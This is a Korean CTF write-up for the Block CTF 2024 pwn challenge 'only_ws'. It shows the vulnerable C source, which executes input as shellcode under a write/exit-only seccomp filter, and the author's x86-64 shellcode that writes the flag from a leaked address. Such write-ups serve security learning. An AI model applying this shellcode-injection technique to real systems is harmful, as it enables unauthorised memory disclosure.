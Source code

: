 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Block CTF 2024 #Pwn only_ws Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/048040d5-20fb-417f-a909-52dd4d96fd2c)

먼저 문제를 살펴보면 flag가 적혀있다고한다.

우선 ```nc```명령어를 이용해서 문제 서버로 접속해 보았다.

![image](https://github.com/user-attachments/assets/218c2e45-e58a-4c8d-8a54-903dbd85cac3)

Flag is at 0x4040a0이라고 나온다. 아마도 flag 주소일 것이다.

이어서 ```only_ws.c```파일을 다운로드 받았다.

```python
#include <seccomp.h>
#include <syscall.h>

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#include <string.h>

typedef void shellcode();
char flag[64];

int main(int argc, char **argv) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("error reading flag");
    return -1;
  }

  fscanf(f, "%s", flag);
  printf("Flag is at 0x%x\n", (void *)flag);
  fclose(f);

  char shellcode_buf[4096];
  int bytes_read = read(STDIN_FILENO, shellcode_buf, sizeof(shellcode_buf));

  void *shellcode_ptr =
      mmap((void *)shellcode_buf, 1, PROT_READ | PROT_WRITE | PROT_EXEC,
           MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  memcpy(shellcode_ptr, shellcode_buf, bytes_read);

  scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL_PROCESS);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);

  seccomp_load(ctx);
  seccomp_release(ctx);
  ((shellcode *)shellcode_ptr)();
}
```

일단 코드를 살펴보면 가장 눈에 띄는 것은 flag 메모리 주소가 노출되어 있다는 점이다.

또한 ```seccomp``` 필터를 사용해서 ```write```와 ```exit``` 시스템 콜만을 허용하고 있다. 

그래서 나는 flag 변수의 주소를 이용하여 flag 데이터를 읽어오는 쉘코드를 작성해서 flag 값을 ```write``` 시스템 콜을 이용해 출력해보려 한다.

우선 flag의 주소 값을 읽고 ```write```을 통해 출력하는 어셈블리 코드를 작성했다.

```python
section .text
global _start

_start:
    ; 파일 디스크립터를 표준 출력 (1)로 설정
    mov rdi, 1                    ; rdi에 파일 디스크립터 1 저장 (표준 출력)

    ; flag의 메모리 주소를 rsi에 설정
    mov rsi, 0x4040a0             ; rsi에 flag의 메모리 주소 (0x4040a0) 저장

    ; 출력할 바이트 수 설정
    mov rdx, 64                   ; 최대 64바이트 출력 (flag 배열의 크기만큼)

    ; write 시스템 콜 호출 (시스템 콜 번호 1)
    mov rax, 1                    ; rax에 시스템 콜 번호 1 (write) 저장
    syscall                       ; 시스템 콜 실행

```
![image](https://github.com/user-attachments/assets/d184f6cb-4153-46fa-b086-be935b87f6ad)

코드에 대해 좀더 자세히 설명해 보자면

mov rdi, 1 : rdi 레지스터에 파일 디스크립터 1을 설정하여 표준 출력으로 출력하도록 한다.

mov rsi, 0x4040a0 : rsi 레지스터에 flag의 메모리 주소(0x4040a0)를 설정하여 write 시스템 콜에서 이 주소의 데이터를 읽어 출력할 수 있도록 한다.

mov rdx, 64 : rdx 레지스터에 읽고 출력할 바이트 수를 설정하고 flag의 크기인 64바이트로 설정한다.

mov rax, 1 : rax 레지스터에 write 시스템 콜 번호인 1을 설정한다.

syscall : 시스템 콜을 호출하여 flag 내용을 출력한다.

이어서 작성한 어셈블리 코드를 쉘코드로 변환해보았다.

![image](https://github.com/user-attachments/assets/38049a54-37de-4df5-af2b-ed797cddbb20)

그리고 ```objdump```명령어를 사용해 쉘코드를 \x형식의 바이트 코드로 추출했다.

![image](https://github.com/user-attachments/assets/bc2ef3cd-ebfb-49ce-8b14-9ef755879b0a)

나온 쉘코드를 순수 바이트 코드 형태로 정리한 후 ```echo -ne```명령어를 이용해 바이너리 파일로 저장하였다.

![image](https://github.com/user-attachments/assets/3f8da926-4908-4e35-9052-40c0a2410dc6)

이후 만들어진 쉘코드를 서버로 전달해 주었다.

![image](https://github.com/user-attachments/assets/ae45bf67-da6d-40a8-8dc0-f143521fdb58)

flag를 얻었다!!
flag{kinda_like_orw_but_only_ws}
